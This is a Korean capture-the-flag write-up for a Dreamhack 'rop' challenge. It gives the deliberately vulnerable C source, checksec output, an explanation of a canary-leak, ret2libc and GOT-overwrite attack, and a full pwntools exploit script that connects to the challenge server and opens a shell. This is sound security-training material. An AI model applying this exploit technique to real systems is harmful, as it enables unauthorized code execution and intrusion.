 ## rop
---

```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

<br><br>

## Solution
---

```
[*] '/home/index/rop/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

<br>

ASLR, NX가 걸려있다.

구해야 되는 값들은 다음과 같다.

+ pop rdi; ret gadget
+ puts 함수의 got 주소 == 0x601018
+ read 함수의 오프셋
+ put@got를 이용해서 libc의 주소 == puts 함수 - puts 함수 오프셋
+ system 함수의 오프셋 -> puts@got에 overwrite 할 것임
+ ```/bin/sh``` 문자열의 주소


먼저 카나리 값을 구한 다음, puts 함수를 호출하여 puts 함수의 got 값을 알아낼 것이다.

위 문제는 PIE가 적용되어 있지 않아서 plt와 got의 주소는 동일하다.

공격은 리턴을 puts@plt로 하여 read@got의 값을 읽어내서 read 함수의 주소를 구한 뒤, 이 값을 통해 libc의 베이스 주소를 알아내서 system 함수의 주소를 알아내고, 이번엔 read 함수를 호출하여 read@got에 system 함수의 주소와 ```/bin/sh``` 문자열을 넣어주고 read@plt를 호출하여 셸을 흭득할 것이다.

<br>

근데 문제에서 libc 파일을 제공하였다.

따라서 강의처럼 pwntools를 이용해서 해야 할 것 같다..!

대부분 강의를 보고 코드를 짰고, 마지막 got overwrite 부분은 강의내용을 정리하면 다음과 같다.

read@got를 덮어쓰기 위해 read@plt를 호출할텐데, 인자로 값을 넘겨줘야 하는데 rdx 가젯이 없다.

이 가젯은 libc의 코드 가젯이나, libc_csu_init가젯을 사용하여 해결할 수 있다고 한다.

그러나 이 문제에서는 rdx 값이 매우 크게 설정되어서 필요는 없다고 한다.

--> 이 부분은 강의는 우분투 18.04 버전이고 이 버전에서는 매우 큰 값으로 되있는데, 20.04는 0으로 설정됨

<br>

```python
from pwn import *

#p = process('./rop')

p = remote("host3.dreamhack.games", 14169)


payload = b"A"*(0x40-0x7)
p.sendafter(b'Buf: ',payload)
p.recvuntil(payload)

canary = u64(b"\x00"+p.recvn(7))
print("@ Canary : ",hex(canary))

libc = ELF('./libc-2.27.so')
e = ELF('./rop')

pop_rdi_ret = 0x00000000004007f3
pop_rsi_r15_ret = 0x00000000004007f1
#pop_rdx_ret = 0x0000000000001b96 --> libc gadget
#ret = 0x000000000040055e
puts_plt = e.plt['puts']
read_plt = e.plt['read']
read_got = e.got['read']
binsh = read_got + 0x8

# payload
# buffer padding + canary + sfp + puts(read@got) + read(0,read@got,?) + read@plt

payload = b"A"*(0x40-0x8) + p64(canary) + b"B"*0x8

# puts(read@got)
payload += p64(pop_rdi_ret) # return to pop_rdi
payload += p64(read_got) # 인자로 read@got 주소
payload += p64(puts_plt) # call puts@plt

# read(0,read@got,)
payload += p64(pop_rdi_ret)
payload += p64(0) # read(0,)
payload += p64(pop_rsi_r15_ret)
payload += p64(read_got) # read(0,read@got,)
payload += p64(0) # r15 = 0
#payload += p64(pop_rdx_ret)
#payload += p64(200)
payload += p64(read_plt) # call read@plt

# call read --> system
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(read_plt) # call read@plt

p.sendafter(b'Buf: ', payload)

read_addr = u64(p.recvn(6)+b"\x00"*2)
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']

print("@ libc_base :", hex(libc_base))
print("@ system_addr :",hex(system_addr))

p.send(p64(system_addr)+b"/bin/sh\x00") # read를 통해 got overwrite

p.interactive()
```

로컬에서 할 때는 셸이 흭득이 안됬는데.. 흠.. 이유를 모르겠다.




